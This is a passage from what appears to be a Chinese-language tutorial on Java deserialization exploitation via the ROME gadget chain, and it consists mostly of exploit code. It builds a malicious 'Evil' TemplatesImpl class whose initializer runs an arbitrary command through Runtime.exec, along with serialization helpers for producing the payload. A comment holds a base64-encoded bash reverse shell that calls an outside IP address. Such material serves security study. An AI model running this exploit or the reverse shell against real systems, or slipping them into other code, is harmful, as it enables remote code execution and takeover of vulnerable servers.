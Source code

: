 ```
  
    }  
  
    public static byte[] getTemplatesImpl(String cmd) {  
        try {  
            ClassPool pool = ClassPool.getDefault();  
            CtClass ctClass = pool.makeClass("Evil");  
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
            ctClass.setSuperclass(superClass);  
            CtConstructor constructor = ctClass.makeClassInitializer();  
            constructor.setBody(" try {\n" +  
                    " Runtime.getRuntime().exec(\"" + cmd +  
                    "\");\n" +  
                    " } catch (Exception ignored) {\n" +  
                    " }");  
            // "new String[]{\"/bin/bash\", \"-c\", \"{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMC4xMS4yMzEvOTk5MCAwPiYx}|{base64,-d}|{bash,-i}\"}"  
 			byte[] bytes = ctClass.toBytecode();  
            ctClass.defrost();  
            return bytes;  
        } catch (Exception e) {  
            e.printStackTrace();  
            return new byte[]{};  
        }  
    }  
  
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception {  
        Class clazz = object.getClass();  
        Field field = clazz.getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(object,value);  
    }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        oos.writeObject(obj);  
    }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
        Object obj = ois.readObject();  
        return obj;  
    }  
}
```

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/ROMESuccess.png)

至此，关于 ROME 的部分就到此结束了，我们可以把它的这条链子和其他利用链结合一下
